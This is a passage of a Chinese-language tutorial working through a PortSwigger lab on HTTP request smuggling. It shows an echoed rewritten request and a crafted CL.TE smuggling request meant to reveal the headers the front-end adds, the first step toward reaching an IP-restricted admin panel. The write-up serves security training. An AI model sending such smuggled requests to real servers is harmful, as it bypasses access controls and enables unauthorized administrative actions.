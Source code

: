 前端服务器将重写请求以包括附加的报头，然后后端服务器将处理走私的请求并将重写的第二请求视为 emil 参数的值，然后它会在第二个请求的响应中回显这个值：

```plain
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

确定前端服务器是如何重写请求的后我们就可以将必要的重写应用到您走私的请求上以确保它们被后端服务器以预期的方式处理，下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，在/admin 有一个管理面板，但是只有 IP 地址为 127.0.0.1 的人才能访问，前端服务器向包含 IP 地址的传入请求添加 HTTP 头，它类似于 X-Forwarded-For 标头，但名称不同，为了解决这个实验题目，你需要偷偷的向后端服务器发送一个请求，该请求显示前端服务器添加的头，然后偷偷向后端服务器发送一个请求，其中包含添加的头，访问管理面板并删除用户 carlos  
演示步骤：  
Step 1：首先访问上面的链接进入靶场地址，随后点击"ACCESS THELAB"进入靶场，直接访问/admin 地址会被拦截，回显内容提示需要 administrator 用户访问并要求来访地址为 127.0.0.1 才阔以  
[![](assets/1704418275-c47950103ca31118a7281714520ad43a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155800-d0467b0c-aa0d-1.png)  
然后搜索 Blog

[![](assets/1704418275-d16268019323c218d1d4d41f437db252.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155813-d811163a-aa0d-1.png)  
使用 burpsuite 抓包可以看到我们搜索的内容——"1111"被回显到了响应报文中  
[![](assets/1704418275-0c132421962ee9b21c2426d3f57886ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155829-e1e6fe0e-aa0d-1.png)  
Step 3：随后构造以下请求数据报文

```plain
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

[![](assets/1704418275-200e735063423643b4df2e6218fab657.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155855-f18dfe66-aa0d-1.png)
